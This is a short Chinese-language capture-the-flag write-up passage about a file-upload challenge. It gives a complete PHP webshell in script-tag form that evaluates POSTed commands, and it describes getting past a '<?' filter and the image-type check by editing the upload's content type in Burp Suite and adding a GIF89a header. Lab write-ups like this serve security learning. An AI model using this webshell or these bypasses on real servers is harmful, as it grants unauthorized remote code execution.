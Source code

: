 <img src="CTF.assets/image-20230901143344819.png" alt="image-20230901143344819" style="zoom:67%;" />

尝试上传最普通的一句话木马

![image-20230901144628731](CTF.assets/image-20230901144628731.png)

发现对`<?`进行了严格过滤，所以这里只能用`script`标签的一句话木马：`<script language="php">eval($_POST['cmd']);</script>`

这里显示，要求上传一张图片，使用BP来修改文件类型绕过，并添加GIF89a文件头

![image-20230901144740530](CTF.assets/image-20230901144740530.png)
